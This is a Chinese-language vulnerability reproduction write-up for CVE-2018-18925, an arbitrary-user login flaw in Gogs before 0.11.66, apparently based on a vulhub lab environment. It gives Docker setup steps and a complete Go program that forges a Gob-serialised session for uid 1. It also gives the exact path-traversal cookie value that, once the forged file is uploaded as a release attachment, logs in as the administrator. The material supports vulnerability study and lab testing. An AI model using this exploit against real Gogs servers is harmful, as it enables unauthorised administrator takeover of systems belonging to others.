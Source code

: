 # （CVE-2018-18925）Gogs 任意用户登录漏洞

## 一、漏洞简介

gogs是一款极易搭建的自助Git服务平台，具有易安装、跨平台、轻量级等特点，使用者众多。

其0.11.66及以前版本中，（go-macaron/session库）没有对sessionid进行校验，攻击者利用恶意sessionid即可读取任意文件，通过控制文件内容来控制session内容，进而登录任意账户。

## 二、漏洞影响

Gogs < 0.11.66

## 三、复现过程

执行如下命令启动gogs：

```shell
docker-compose up -d
```

环境启动后，访问 http://your-ip:3000 ，即可看到安装页面。安装时选择sqlite数据库，并开启注册功能。

安装完成后，需要重启服务：docker-compose restart，否则session是存储在内存中的。

## 漏洞利用

使用Gob序列化生成session文件：

```
package main

import (
    "bytes"
    "encoding/gob"
    "encoding/hex"
    "fmt"
    "io/ioutil"
    "os"
)

func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
    for _, v := range obj {
        gob.Register(v)
    }
    buf := bytes.NewBuffer(nil)
    err := gob.NewEncoder(buf).Encode(obj)
    return buf.Bytes(), err
}

func main() {
    var uid int64 = 1
    obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
    data, err := EncodeGob(obj)
    if err != nil {
        fmt.Println(err)
    }
    err = ioutil.WriteFile("data", data, os.O_CREATE|os.O_WRONLY)
    if err != nil {
        fmt.Println(err)
    }
    edata := hex.EncodeToString(data)
    fmt.Println(edata)
}
```

然后注册一个普通用户账户，创建项目，并在“版本发布”页面上传刚生成的session文件：

![image](images/img1.png)

通过这个附件的URL，得知这个文件的文件名：./attachments/2eb7f1a2-b5ec-482e-a297-15b625d24a10。

然后，构造Cookie：i_like_gogits=../attachments/2/e/2eb7f1a2-b5ec-482e-a297-15b625d24a10，访问即可发现已经成功登录id=1的用户（即管理员）：

![image](images/img2.png)

完整的利用过程与原理，可以阅读参考链接中的文章。

## 参考链接

https://vulhub.org/#/environments/gogs/CVE-2018-18925/
